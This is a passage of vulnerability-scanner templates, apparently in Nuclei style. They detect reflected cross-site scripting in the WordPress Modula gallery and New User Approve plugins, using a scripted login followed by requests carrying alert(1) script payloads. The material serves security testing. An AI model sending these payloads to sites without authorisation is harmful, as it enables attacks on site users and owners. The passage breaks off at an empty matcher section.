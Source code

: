 ```
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/edit.php?post_type=modula-gallery&page=modula-addons&a">\<script>alert(1)\</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. &a\">\<script>alert(1)\</script>&extensions=

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress New User Approve \<2.4.1 - Cross-Site Scripting
## Description
- WordPress New User Approve 2.4.1 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wordpress,xss,authenticated,wp-plugin,wpscan,wp
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/index.php?a%22%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers
